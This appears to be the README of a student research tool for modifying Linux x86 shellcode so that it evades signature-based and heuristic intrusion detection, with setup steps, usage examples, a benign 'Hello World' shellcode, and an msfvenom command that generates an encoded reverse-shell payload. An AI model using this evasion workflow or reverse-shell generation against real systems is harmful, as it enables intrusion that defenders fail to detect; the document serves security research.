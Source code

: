 # Shellcode Assistant

A useful script for hex editing, writing, scanning and/or testing **Linux x86 shellcode** to bypass IDS/IPS.

**Tested on Kali Linux Rolling**

The script was developed for a Offensive Technologies research project by students of OS3. We were looking for a comfortable and efficient way of altering existing shellcode. This tool will help reproduce the experiments of our research.

It is designed to make the process of altering shellcode to bypass **signature based** and heuristic detection easier. It takes a raw shellcode file as input and offers various options, including scanning shellcode using YARA rules, dumping code in hexadecimal or Intel x86 ASM format, compiling code using a C wrapper and executing and checking a raw shellcode file for a specific string. In addition, it can emulate, analyse and generate a graph for x86 shellcode using Libemu. Automatic recompilation, which triggers when the modification time stamp changes, is another useful feature that might save time when raw shellcode is manually modified and saved using a hex editor.

**We recommend using the automatic recompilation mode by using the -R flag**.

The script also provides an **interactive command line interface**, similar to Metasploit's nasm-shell, for assembling and disassembling instructions. It does this using the Capstone and Keystone libraries.

## Dependencies
* Python 3 (≥ 3.5)
* Capstone
* Keystone
* YARA
* Colorama
* Libemu
* gcc

## Setup

```
# python3 libraries
pip3 install capstone
pip3 install --no-binary keystone-engine keystone-engine
pip3 install colorama
pip3 install yara

# gcc is required for compiling the raw shellcode into an executable
sudo apt install build-essential

# libemu is required for outputting a graph using Libemu's sctest
sudo apt install graphviz
sudo apt install libemu2

# gcc-multilib is required to compile x86 executables on x64 systems
apt-get install gcc-multilib

# create symbolic link to YARA library in case it isn't found
ln -s /usr/local/lib/python3.8/dist-packages/usr/lib/libyara.so /usr/lib/libyara.so
```

## Usage

```
=============================================================
                -- Shellcode Assistant v1.0 --
=============================================================

usage: shellcode_assistant.py [-h] -f FILE [-y YARA] [-o OFFSET] [-t] [-s STDOUT] [-se STDERR] [-x] [-c]
                              [-e] [-d] [-a] [-A] [-R] [-ob]

== Tool to assist a user in writing or modifiying shellcode ==

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Enter path to file.
  -y YARA, --yara YARA  Enter path to YARA rule.
  -o OFFSET, --offset OFFSET
                        Set hexadecimal program offset.
  -t, --test            Run and test compiled executable.
  -s STDOUT, --stdout STDOUT
                        Check STDOUT for a specific string.
  -se STDERR, --stderr STDERR
                        Check STDERR for a specific string.
  -x, --hexdump         Dump hex code.
  -c, --compile         Compile file using C wrapper.
  -e, --emulate         Emulate and analyse shellcode using Libemu.
  -d, --disassemble     Disassemble shellcode.
  -a, --assembler       Start ASM interactive assembler / disassembler mode.
  -A, --all             Run all functions above.
  -R, --autorecompile   Automatic recompiling and testing upon file modification time change.
  -ob, --objdump        Use Linux objdump instead of Python Capstone library.
```

*The Python Capstone library might truncate code in certain cases. Use --objdump if necessary.*

## Examples

```
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -R -s "Hello World" -o 0x0 -y rule.yar
root@kali:~/OT-Project# python3 shellcode_assistant.py -f testing.bin -A -s "Hello World"
```

### Demo - Modifying Shikata Ga Nai Encoded 'Hello World' Shellcode

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.gif" width="1000px" height="565" alt="" data-align="center">

**Diagram generated by Libemu**

<img title="" src="https://raw.githubusercontent.com/alexander-47u/Shellcode-Assistant/master/demo.png" width="600px" height="484" alt="" data-align="center">

### ASM Interactive Assembler / Disassembler

```
...
0x40404064    2    31 DB               xor    ebx, ebx
0x40404066    2    CD 80               int    0x8
---------------------------------------
Last Modified: Sat May 16 16:48:48 2020
---------------------------------------
asm > ?
 <x86-instruction> | recompile | test | emulate | yarascan | hexdump | ls | clear | reset | exit
asm > \xC7\xC3\xAC\xCB\x77\x92
mov	ebx, 0x9277cbac
asm > push 0x9277cbac; pop ebx
\x68\xAC\xCB\x77\x92\x5B
asm >

Shellcode emulated:
Graph saved as 'testing.bin.dot' & 'testing.bin.png'
---------------------------------------
asm >
```

### Obtaining Raw Shellcode

#### Method 1 - Compile ASM and dump code section to hex format

```
1. Compile ASM Code
nasm -f elf32 helloworld.asm -o helloworld.o

2. Dump object code to hex code
objdump -d ./helloworld.o|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

3. Save hex shellcode to raw shellcode file using echo
echo -e "\x31\xc0\xb0\x04\x31\xdb\xb3\x01\x31\xd2\x52\x68\x72\x6c\x64\x0a\x68\x6f\x20\x57\x6f\x68\x48\x65\x6c\x6c\x89\xe1\xb2\x0c\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80" > testing.bin
```

#### Method 2 - Use Metasploit's shellcode generator

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -b "\x00" -e x86/shikata_ga_nai -o testing.bin
```

## Authors

Alexander-OS3

Jelle-OS3

## TO-DO

* Add support for Linux x64
* Create script with Windows support
